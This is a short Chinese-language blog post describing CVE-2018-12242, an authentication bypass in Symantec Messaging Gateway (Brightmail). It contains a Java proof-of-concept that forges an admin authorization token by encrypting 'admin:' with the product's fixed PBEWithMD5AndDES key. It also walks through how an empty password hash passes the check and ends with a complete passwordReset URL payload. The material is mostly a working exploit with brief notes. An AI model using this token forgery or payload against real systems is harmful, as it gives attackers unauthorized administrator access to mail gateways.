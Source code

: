 ```yaml
---
id: 295
title: CVE-2018-12242
date: 2018-11-12T21:26:46+00:00
author: bfpiaoran
layout: post
categories:
  - 未分类
---
```

poc 生成

Test.java

<pre class="pure-highlightjs"><code class="">import java.security.SecureRandom;
import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.PBEKeySpec;
import javax.crypto.spec.PBEParameterSpec;
import sun.misc.BASE64Encoder;

public class Test{
	public static void main(String args[]){
		try{
			//System.out.print(123);
			byte[] salt = new byte[8];
			SecureRandom random = SecureRandom.getInstance("SHA1PRNG");
			random.nextBytes(salt);
			PBEKeySpec keySpec = new PBEKeySpec("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ,./&lt;&gt;?;':\"\\{}`~!@#$%^&*()_+-=".toCharArray());
			SecretKeyFactory keyFactory = SecretKeyFactory.getInstance("PBEWithMD5AndDES");
			SecretKey key = keyFactory.generateSecret(keySpec);
			PBEParameterSpec paramSpec = new PBEParameterSpec(salt, 1000);
			Cipher cipher = Cipher.getInstance("PBEWithMD5AndDES");
			cipher.init(1, key, paramSpec);
			//byte[] salt;
			BASE64Encoder encoder = new BASE64Encoder();
			String saltString = encoder.encode(salt);
			String text = "admin:";
			byte[] ciphertext = cipher.doFinal(text.getBytes());
			String ciphertextString = encoder.encode(ciphertext);
			System.out.print(saltString + ciphertextString);
		}catch (Exception e){
			System.out.print(e);
		}

	}
}
</code></pre>

核心还是在加密解密这块

<img class="alignnone size-full wp-image-296" src="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111.png" alt="" width="554" height="492" srcset="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111.png 554w, http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-300x266.png 300w" sizes="(max-width: 554px) 85vw, 554px" /> 

&nbsp;

加密算法一直是固定的

但是FIPS186PRNG这个算法太古老了

&nbsp;

只能拿SHA1PRNG代替

<img class="alignnone size-full wp-image-297" src="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-1.png" alt="" width="554" height="446" srcset="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-1.png 554w, http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-1-300x242.png 300w" sizes="(max-width: 554px) 85vw, 554px" /> 

&nbsp;

接下来分析一波漏洞触发点

&nbsp;

token = BrightmailDecrypt.decrypt(token);

&nbsp;

接收到token用公共的解密方法解密

&nbsp;

解密之后按   “  :  ”

分割 前面为username  后面为 passwordhash

&nbsp;

然后按username做sql查询

&nbsp;

然后调用getAdministratorUserByName方法

&nbsp;

<img class="alignnone size-full wp-image-298" src="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-2.png" alt="" width="554" height="240" srcset="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-2.png 554w, http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-2-300x130.png 300w" sizes="(max-width: 554px) 85vw, 554px" /> 

&nbsp;

GetSQLAdministratorUserByName生成sql语句

然后查询

接着对比

如果user为空会抛出一个不存在该用户的异常

如果passwordhash与查询到的passwordhash不一致也会抛出异常

&nbsp;

那么passwordhash是什么呢

在开启重置密码选项后  该字段为空。。。

然后创建一个admin session的正常操作….

&nbsp;

&nbsp;

那么最终payload为

&nbsp;

/brightmail/action2.do?method=passwordReset&authorization=S9m%2bdmCBN8k%3dfot%2fxYG299k%3d

<img class="alignnone size-full wp-image-299" src="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-3.png" alt="" width="554" height="141" srcset="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-3.png 554w, http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-3-300x76.png 300w" sizes="(max-width: 554px) 85vw, 554px" />